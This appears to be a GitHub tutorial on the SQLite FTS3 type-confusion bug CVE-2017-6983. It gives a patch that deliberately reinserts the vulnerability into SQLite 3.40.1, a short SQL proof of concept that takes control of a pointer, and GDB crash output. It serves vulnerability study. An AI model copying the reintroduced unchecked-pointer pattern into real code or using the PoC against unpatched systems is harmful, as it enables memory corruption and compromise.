 # CVE-2017-6983

CVE-2017-6983 is a type-confusion bug in SQLite that can provide arbitrary memory-write primitive. More details about this bug and its exploitation can be found via the following links

* Many Birds, One Stone: Exploiting a Single SQLite Vulnerability Across Multiple Software. BlackHat USA 2017.
  * [Video](https://www.youtube.com/watch?v=Kqv8S1BQYwE&ab_channel=BlackHat)
  * [Slides](https://www.blackhat.com/docs/us-17/wednesday/us-17-Feng-Many-Birds-One-Stone-Exploiting-A-Single-SQLite-Vulnerability-Across-Multiple-Software.pdf) (p39-p60)

# Source Code

The following instructions provide a way to obtain the source code of SQLite version 3.40.1.

```bash
$ git clone https://github.com/sqlite/sqlite.git
$ cd sqlite
$ git checkout version-3.40.1 #-> commit 1fdaa9d1a7
```

You may need to compile the source code to produce the file `sqlite3.c` and `shell.c`.

```bash
# (within sqlite folder)
$ CC="clang -DSQLITE_DEBUG" ./configure --enable-debug
$ make
$ ls -l sqlite3.c shell.c
```

# Bring the Bug Back

The version of SQLite we analyze is 3.40.1, which has fixed this bug. For the demonstration purpose, we manually modify the source code to bring the bug back into this version. The following patch shows the changes to bring the bug back. You should never apply this patch to your SQLite source code except for this demo purpose.


```c
// in sqlite3.c

static int fts3FunctionArg(
  sqlite3_context *pContext,      /* SQL function call context */
  const char *zFunc,              /* Function name */
  sqlite3_value *pVal,            /* argv[0] passed to function */
  Fts3Cursor **ppCsr              /* OUT: Store cursor handle here */
){
  int rc;
  /* Insert Vuln */
+ Fts3Cursor *pRet;
+ memcpy(&pRet, sqlite3_value_blob(pVal), sizeof(Fts3Cursor *));
+ *ppCsr = pRet;
- *ppCsr = (Fts3Cursor*)sqlite3_value_pointer(pVal, "fts3cursor");
  if( (*ppCsr)!=0 ){
    rc = SQLITE_OK;
  }else{
    char *zErr = sqlite3_mprintf("illegal first argument to %s", zFunc);
    sqlite3_result_error(pContext, zErr, -1);
    sqlite3_free(zErr);
    rc = SQLITE_ERROR;
  }
  return rc;
}
```

After this modification, you should compile again via `make`.

# Nice Feature: Virtual Table

SQLite is designed to handle SQL tables, which contain a set of rows and each row is represented by a set of columns. This is the original purpose of it. However, to extend the usability of SQLite, it also supports processing data in other types, like files. The benefit is that we can use the same/familiar SQL commands to operate on other data, like searching within documents using SQL query. This amazing feature is achieve via **virtual table**.

As indicated by the name, a virtual table is not a real traditional SQL table, but a handle in SQLite for data in other types. When creating virtual table, we need to specify its underlying SQLite extension that supports this virtual table. For example, FTS3 is an extension to SQLite that support full-text search (FTS). In this case, when we want to `CREATE`, `INSERT` or `SELECT` from a virtual table, the underlying callback functions defined in the related extension is used to achieve the functionality, instead of operating on real SQL tables using SQLite code.

So far so good.

However, when we create a virtual table and insert data into the table, the data will be stored in the virtual table, in the type of `BLOB`. A blob data is raw, which means we do not know it real type. The extension knows its type, because it predefines the types inside its own virtual table. When it writes (via insert) to the blob, it will follow its own data types. When it reads (via select) from the blob, it also follows its definition.

What will happen if we forge a BLOB data and force the extesion to load it? Err ... Simple. The extension trusts the BLOB data and will still follow its own defintion to load the data, even if the data is not created by itself. This means that if in its own definition some data at offset X is a pointer, the extension will read the value at offset X, and treat the result as a pointer ...

So far, too good, for attackers unfortunately.

This is the bug CVE-2017-6983. Let's look into a simple PoC

# PoC0: control a pointer

Here is the first PoC, which will allow attackers to control one pointer.

```sql
create virtual table a using fts3(b);
insert into a values(x'aabbccdd');
select optimize(b) from a;
```

1. We create a virtual table `a` using the underly FTS3 extension. This virtual table only has one column `b` (yes, it also supports columns).

2. We insert one new record into this virtual table. The content is a BLOB data, which is simply `x'aabbccdd'`.

3. We read from the virtual table `a` via `select`, which will return the content of column `b`, which is `0xddccbbaa` (big endian). However, instead of directly printing the content of `b`, we pass it to another function `optimize`.

Run this PoC with SQLite

```bash
# save the poc above to /tmp/exp0
$ ./sqlite < /tmp/exp0
Segmentation fault (core dumped)
```

Check it with GDB

```bash
$ gdb ./sqlite3
(gdb) r < /tmp/exp0
Program received signal SIGSEGV, Segmentation fault.
0x00000000005b3d4a in fts3OptimizeFunc (pContext=0x664e80, nVal=1, apVal=0x664eb0) at sqlite3.c:182454
182454    p = (Fts3Table *)pCursor->base.pVtab;
(gdb) p pCursor
$1 = (Fts3Cursor *) 0xddccbbaa
```

We can see that `pCursor` is exactly what we insert into the virtual table.

Let's check some code around the crashing instruction.

```bash
(gdb) bt
#0  0x00000000005b3d4a in fts3OptimizeFunc (pContext=0x664e80, nVal=1, apVal=0x664eb0) at sqlite3.c:182454
#1  0x00000000004b34ae in sqlite3VdbeExec (p=0x662a20) at sqlite3.c:98127
#2  0x00000000004549ed in sqlite3Step (p=0x662a20) at sqlite3.c:88072
#3  0x000000000044c267 in sqlite3_step (pStmt=0x662a20) at sqlite3.c:88133
#4  0x000000000043e63e in exec_prepared_stmt (pArg=0x7fffffffcf68, pStmt=0x662a20) at shell.c:18074
#5  0x0000000000418677 in shell_exec (pArg=0x7fffffffcf68, zSql=0x64f430 "select optimize(b) from a;", pzErrMsg=0x7fffffffcd50) at shell.c:18390
#6  0x00000000004428ff in runOneSqlLine (p=0x7fffffffcf68, zSql=0x64f430 "select optimize(b) from a;", in=0x7ffff7c1aaa0 <_IO_2_1_stdin_>, startline=4) at shell.c:25400
#7  0x000000000041934d in process_input (p=0x7fffffffcf68) at shell.c:25564
#8  0x000000000040b9df in main (argc=1, argv=0x7fffffffe308) at shell.c:26419
(gdb) l
182449
182450    UNUSED_PARAMETER(nVal);
182451
182452    assert( nVal==1 );
182453    if( fts3FunctionArg(pContext, "optimize", apVal[0], &pCursor) ) return;
182454    p = (Fts3Table *)pCursor->base.pVtab;
182455    assert( p );
182456
182457    rc = sqlite3Fts3Optimize(p);
182458
```

The exectuion crashes at line `182454`. The line above is an invocation to function `fts3FunctionArg`. The source code of this function is given in the previouis section [Bring the Bug Back](#bring-the-bug-back).

Without diving too deep into SQLite code, it is reasonable to guess that function `fts3OpitmizeFunc` is responsible for handling the `optimize` function in our SQL query. Since we pass `b` into `optimize`, the underlying source code will get the value of `b` via `fts3FunctionArg` and use it inside the `fts3OptimizeFunc`.

* In the vulnerable code (after our patching), SQLite merely uses `sqlite3_value_blob` to obtain the data pointer, and uses `memcpy` to extract the pointer from the BLOB data. It only checks whether the content has blob type.

* In the fixed version, SQLite directly uses `sqlite3_value_pointer` to extract a poitner, where it will check whether the content has poitner type.

Anyway, in the buggy version, we (attackers) can easily control a full pointer `pCursor` in function `fts3optimizeFunc`. Starting from this function, we will try to achieve the arbitrary-write primitive.

